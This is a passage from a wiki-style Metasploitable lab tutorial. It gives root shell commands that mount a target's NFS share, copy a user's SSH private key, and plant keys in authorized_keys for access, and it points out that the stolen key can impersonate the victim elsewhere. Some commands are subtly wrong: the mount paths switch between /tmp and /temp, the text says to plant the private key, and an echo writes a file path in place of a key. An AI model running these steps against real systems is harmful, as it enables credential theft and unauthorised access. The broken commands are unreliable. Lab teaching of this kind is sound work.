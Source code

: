 ## Obtaining Private Key

To carry out this attack, you will need to have access to the file system, and/or be able to mount the remote file system (which, on Metasploitable, happens to be possible!): see [[Metasploitable/NFS]]

Once you've got access to the file system, you'll grab a copy of the remote machine's private keys, and use them together with Metasploit to obtain access to the machine.

(Note that you could also plant your keys on the target, by adding your public SSH keys onto the target machine's list of trusted machines, but this technique would restrict you to a particular machine, wile the Metasploit method is portable and less intrusive.)

To snatch the target's private key:

```
# service rpcbind start
# mkdir /tmp/target
# mount -t nfs 10.0.0.27:/ /temp/target
# cp /tmp/target/home/msfadmin/.ssh/id_rsa /tmp/r00tprivatekey
# umount /tmp/target
```

Now you have a copy of the <code>msfadmin</code> account's private SSH key.

Metasploit We'll use Metasploit to turn this into access to the remote machine.

This key is also useful for impersonating the target when connecting to OTHER remote machines.

###  Planting Private Keys

An alternative method to gain access, although it is not useful for gaining access to any machines other than the victim machine, is to GENERATE a public/private SSH key pair from the attacker machine, and copy the PRIVATE key over to the remote machine. (Using the public key and the above-mentioned technique would be easier, but it's worth mentioning at least.)

To plant your private keys on the remote machine, you'll need write access to the target user's home directory. You'll generate a public SSH key from the attacker machine, the machine you want to have access WITH, and add it to the other machine's <code>~/.ssh/authorized_keys</code>.

This presumes the <code>.ssh</code> directory exists. If it doesn't exist, you can make it, and tamper with the filesystem.

```
# service rpcbind start
# mkdir /tmp/target
# mount -t nfs 10.0.0.27:/ /temp/target
# cd /tmp/target/home/msfadmin/ && mkdir .ssh/
# echo ~/.ssh/id_rsa >> /tmp/target/home/msfadmin/.ssh/authorized_keys
# umount /tmp/target
</pre>

==Setting Up the Attack==

Here's info on the <code>auxiliary/scanner/ssh/ssh_login_pubkey</code> module in Metasploit, which will carry out the attack:

```
msf > use auxiliary/scanner/ssh/ssh_login_pubkey
</pre>
